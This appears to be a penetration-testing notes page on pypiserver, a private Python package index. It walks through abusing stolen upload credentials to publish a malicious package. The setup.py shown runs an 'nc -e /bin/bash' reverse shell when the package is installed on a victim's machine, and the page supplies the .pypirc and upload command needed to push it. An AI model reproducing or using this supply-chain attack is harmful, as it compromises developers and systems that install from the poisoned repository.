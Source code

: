 ```yaml
---
description: >-
  PyPI Server (pypiserver) is a minimal PyPi compatible server for pip or
  easy_install.
---
```


# PyPI Server

## What is a PyPI Server?

`pypiserver` is a minimal [PyPI](https://pypi.org) compatible server for `pip` or `easy_install`. It is based on [bottle](http://bottlepy.org) and serves packages from regular directories. Wheels, bdists, eggs and accompanying PGP-signatures can be uploaded either with `pip`, `setuptools`, `twine`, `pypi-uploader`, or simply copied with `scp`.

PyPI Server helps us to create a **Pirvate Python Package Repository.**

## What happens when someone installs from that server and we have the password?

On that moment that we notice that someone installs all packages from the `pypiserver`, and we have the password, we can **upload our malicious python package**.

We will usually find the password inside the `.htpasswd` file from apache or nginx.

### Create our Python Package

Firstly, we need to create a directory with the name of the package, in this example I will use `demo_hacking`.

Navigate into the newly created directory. And create the following files following the hierarchy:

```text
demo_hacking
├── demo_hacking
│   └── __init__.py
├── README.md
├── setup.cfg
├── setup.py
└── .pypirc
```

Edit `setup.py` file, in this file we will put our malicious code. At the moment of the installation package our code will execute on victim's machine. This is an example of reverse shell 

```text
from setuptools import setup
import os
os.system("nc -e /bin/bash ip-addr port") #this is the malicious code
setup(
    name='demo_hacking',
    packages=['demo_hacking'],
    description='Demo H4ck1ng edition',
    version='0.1',
    author='mvc1009',
    keywords=['pip','demo','hacking']
    )
```

Add an example function to `__init__.py`:

```text
def print_demo():
    print("Demo Hacking")
```

The `setup.cfg` file lets PyPI know the README is a Markdown file:

```text
[metadata]
description-file = README.md
```

Create an empty `README.md` optionally you can create a `LICENSE.txt` file:

```text
touch REAMDE.md
touch LICENSE.txt
```

Finally you need to create the `.pypirc` file on the **home** directory:

```text
[distutils]
index-servers =
  pypi
  demo
[pypi]
username:
password:
[demo]
repository: http://localhost:port
username: user
password: password
```

{% hint style="info" %}
**Hint**: Do not forget that you can change the dome directory path: `export HOME=path`
{% endhint %}

Finally you need to upload de package to the `pypiserver`.

```text
python setup.py sdist upload -r demo
```

### References:

* [https://pypi.org/project/pypiserver/](https://pypi.org/project/pypiserver/)
* [https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/)



